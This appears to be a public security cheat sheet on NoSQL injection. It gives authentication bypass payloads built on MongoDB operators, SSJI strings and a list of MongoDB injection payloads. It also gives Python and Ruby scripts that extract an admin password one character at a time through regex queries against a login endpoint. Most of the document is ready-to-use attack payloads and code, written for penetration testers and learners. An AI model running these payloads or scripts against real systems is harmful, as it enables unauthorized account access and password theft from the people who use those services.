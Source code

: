 # NoSQL Injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Summary

* [Tools](#tools)
* [Exploit](#exploits)
  * [Authentication Bypass](#authentication-bypass)
  * [Extract length information](#extract-length-information)
  * [Extract data information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
  * [POST with JSON body](#post-with-json-body)
  * [POST with urlencoded body](#post-with-urlencoded-body)
  * [GET](#get)
* [MongoDB Payloads](#mongodb-payloads)
* [References](#references)

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)
* [nosqlilab - A lab for playing with NoSQL Injection](https://github.com/digininja/nosqlilab)
* [Burp-NoSQLiScanner - Plugin available in burpsuite](https://github.com/matrix/Burp-NoSQLiScanner)  

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### SSJI 

```json
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## Blind NoSQL

### POST with JSON body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### POST with urlencoded body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

ruby script:

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```

## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP/WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
* [NoSQL injection wordlists - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [NoSQL Injection in MongoDB - JUL 17, 2016 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
* [Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
